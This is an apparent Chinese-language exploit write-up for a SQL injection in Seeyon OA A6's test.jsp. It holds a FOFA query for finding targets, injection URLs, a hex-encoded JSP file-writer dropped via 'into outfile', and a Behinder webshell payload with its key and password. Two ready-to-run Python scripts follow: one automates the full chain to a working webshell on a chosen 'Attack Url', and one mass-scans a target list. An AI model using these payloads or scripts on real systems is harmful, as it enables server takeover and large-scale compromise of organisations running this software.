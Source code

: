 # 致远OA A6 test.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA A6

## FOFA

> [!NOTE]
>
> title="致远A8+协同管理软件.A6"

## 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-25.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

返回了当前使用的数据库

要想写入shell需要知道写入的路径

![](http://wikioss.peiqi.tech/vuln/zhiyuan-26.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里得到路径 D:\Program Files\UFseeyon\OA\mysql\bin\..\

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```jsp
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
```

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/peiqi_upload.jsp%27
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-27.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

显示上图则上传成功，访问 peiqi_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎

> [!NOTE]
>
> 注意上传的webshell需要url编码一下

![](http://wikioss.peiqi.tech/vuln/zhiyuan-28.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
http://xxx.xxx.xxx.xxx/yyoa/peiqi_upload.jsp?f=peiqiwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

连接木马

![](http://wikioss.peiqi.tech/vuln/zhiyuan-29.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> EXP木马上传

```python
import requests
import sys
import random
import re
import base64
import time
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if '序号' in response.text and "@@basedir" in response.text and response.status_code == 200:
            OA_dir = re.findall(r'>(.*)\\UFseeyon\\', response.text)[0]
            OA_dir = OA_dir[:2] + '/' + OA_dir[3:]
            print("\033[32m[o] 目标 {}存在漏洞, 安装路径为:{} \033[0m".format(target_url, OA_dir))
            webshell_name = "peiqi_upload{}.jsp".format(random.randint(1,999))
            OA_dir = OA_dir + "/UFseeyon/OA/tomcat/webapps/yyoa/{}".format(webshell_name)
            POC_2(target_url, OA_dir, webshell_name)
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_2(target_url, OA_dir, webshell_name):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27{}%27".format(OA_dir)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if 'already' in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传失败，目标已存在相同文件，请重新运行\033[0m")
        elif "No Data" in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传成功，上传路径为 {}\033[0m".format(OA_dir))
            POC_3(target_url, webshell_name)
        else:
            print("\033[31m[x] 目标 {} 木马上传失败 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_3(target_url, webshell_name):
    rebe_webshell = "peiqiwebshell{}.jsp".format(random.randint(1,999))
    vuln_url = target_url + "/yyoa/{}?f={}".format(webshell_name, rebe_webshell)
    data = "t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 木马上传成功, 路径为:{}/yyoa/{}\033[0m".format(target_url, rebe_webshell))
            print("\033[32m[o] 请使用冰蝎连接，密码为: rebeyond\033[0m")
        else:
            print("\033[31m[x] 木马上传失败，可能被拦截 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-30.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 多个目标测试

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,下载地址:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-31.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Seeyon_OA_A6_test.jsp_SQL_injection

![](http://wikioss.peiqi.tech/vuln/zhiyuan-42.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)